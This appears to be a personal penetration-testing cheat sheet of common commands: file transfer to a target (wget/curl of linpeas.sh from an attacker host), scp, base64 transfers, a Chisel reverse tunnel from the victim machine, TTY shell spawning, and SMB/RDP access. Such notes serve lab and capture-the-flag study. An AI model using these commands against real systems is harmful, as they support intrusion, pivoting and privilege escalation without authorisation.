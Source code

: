# General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

If the remote server does not have `wget`, we can use `cURL`. : `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

### SCP

Copy file from local to a remote computer:

```bash
scp file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
# -P to set the ssh port in necessary case
```

Copy file from remote directory to local computer

```bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```

### Chisel

Example for postgresql (port 5432). First we need to transfer chisel.

On the attacker's machine:

```
chisel server --port 9002 --reverse
```

On the victim's machine:

```
./chisel client -v 10.10.16.81:9002 R:5432:172.22.0.1:5432
```

And now on the atacker's machine we have the ports 5432 connected. The usage wil be on another tab: `psql -h 10.10.16.81 -U "postgres" -p 5432`



#### Spawn a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Tmux

```
sudo apt install tmux -y
```

* [https://tmuxcheatsheet.com/](https://tmuxcheatsheet.com/)
* [Introduction to termux Ippsec](https://www.youtube.com/watch?v=Lqehvpe\_djs)

### Vim

[https://vimsheet.com/](https://vimsheet.com/)

### base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```bash
base64 binarytotransfer -w 0
#On the local machine
```

```
echo f0VMR... <SNIP> ...lIuy9i | base64 -d > binarytotransfer
#On the remote machine
```

### md5sum

To ensure the integrity of the transfered file.

```
md5sum transferedfile
```

### xfreerdp

```
xfreerdp /v:<targetIp> /u:<user> /p:<password> /size:1280x720
```

### smbclient

```
smbclient -L <IPaddress> -U <user>
```

#### Mounting the share:

We may need first to install CIFS utilities:

```shell-session
sudo apt-get install cifs-utils
```

```bash
sudo mount -t cifs -o username=<winusername>,password=<usernamepassword> //<ipaddoftarget>/<"Foldername"> /home/user/Desktop/
#The last command is the path on our local machine where we want to mount the remote share 
```

#### Create a Share with smbserver.py

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support NOMBRECARPETA /home/ltnbob/Documents/
```
